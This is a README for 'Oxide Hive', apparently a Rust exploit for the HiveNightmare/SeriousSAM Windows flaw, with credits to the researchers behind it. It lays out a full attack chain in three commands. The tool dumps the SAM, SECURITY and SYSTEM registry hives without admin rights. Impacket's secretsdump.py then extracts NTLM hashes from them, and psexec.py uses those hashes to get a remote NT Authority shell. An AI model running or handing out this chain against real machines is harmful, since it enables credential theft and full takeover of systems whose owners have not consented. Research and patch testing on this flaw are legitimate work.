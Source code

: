 # Oxide Hive
An exploit for the HiveNightmare/SeriousSAM vulnerability that allows you to read registry hives containing sensitive data without admin privileges. If that doesn't sound like privilege escalation I don't know what does.

# Usage
After building the exploit with `cargo build` and retrieving the binary, deploy it in your testing environment, open CMD and do `.\oxide_hive [max shadow copies]`, the default for shadow copies is 15. The hives SAM, SECURITY and SYSTEM should be dumped to the working directory

From then on you can use [this script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) with the command `secretsdump.py -sam SAM.dump -security SECURITY.dump -system SYSTEM.dump local` to retrieve the NTLM hashes.
Then you can use [another script](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) with the command `psexec.py -hashes <account's hash> <user>@<machine's ip> cmd.exe` to remotely log into any account. Congrats, you just went from unprivileged user to NT Authority with only 3 commands.

# Credits
- @jonasLyk, the person who discovered the vulnerability
- @GossiTheDog, the creator of [the original exploit](https://github.com/GossiTheDog/HiveNightmare) which I took inspiration from
- @chron1k, coder of the exploit
